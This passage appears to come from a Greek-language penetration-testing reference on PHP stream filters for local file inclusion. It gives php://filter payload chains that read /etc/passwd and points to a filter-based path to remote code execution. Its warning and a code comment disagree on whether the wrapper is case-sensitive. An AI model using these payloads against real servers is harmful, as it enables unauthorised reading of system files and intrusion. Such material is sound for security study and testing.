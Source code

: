 > [!WARNING]
> Καταχρώντας το φίλτρο μετατροπής `convert.iconv.*` μπορείτε να **δημιουργήσετε αυθαίρετο κείμενο**, το οποίο θα μπορούσε να είναι χρήσιμο για να γράψετε αυθαίρετο κείμενο ή να κάνετε μια λειτουργία όπως η συμπερίληψη αυθαίρετου κειμένου. Για περισσότερες πληροφορίες, ελέγξτε [**LFI2RCE μέσω φίλτρων php**](lfi2rce-via-php-filters.md).

- [Compression Filters](https://www.php.net/manual/en/filters.compression.php)
- `zlib.deflate`: Συμπιέζει το περιεχόμενο (χρήσιμο αν εξάγετε πολλές πληροφορίες)
- `zlib.inflate`: Αποσυμπιέζει τα δεδομένα
- [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)
- `mcrypt.*` : Απαρχαιωμένο
- `mdecrypt.*` : Απαρχαιωμένο
- Άλλα Φίλτρα
- Εκτελώντας στο php `var_dump(stream_get_filters());` μπορείτε να βρείτε μερικά **αναμενόμενα φίλτρα**:
- `consumed`
- `dechunk`: αναστρέφει την κωδικοποίηση HTTP chunked
- `convert.*`
```php
# String Filters
## Chain string.toupper, string.rot13 and string.tolower reading /etc/passwd
echo file_get_contents("php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd");
## Same chain without the "|" char
echo file_get_contents("php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd");
## string.string_tags example
echo file_get_contents("php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala");

# Conversion filter
## B64 decode
echo file_get_contents("php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=");
## Chain B64 encode and decode
echo file_get_contents("php://filter/convert.base64-encode|convert.base64-decode/resource=file:///etc/passwd");
## convert.quoted-printable-encode example
echo file_get_contents("php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=");
=C2=A3hellooo=3D
## convert.iconv.utf-8.utf-16le
echo file_get_contents("php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=");

# Compresion Filter
## Compress + B64
echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd");
readfile('php://filter/zlib.inflate/resource=test.deflated'); #To decompress the data locally
# note that PHP protocol is case-inselective (that's mean you can use "PhP://" and any other varient)
```
> [!WARNING]
> Το μέρος "php://filter" είναι ευαίσθητο σε πεζά και κεφαλαία
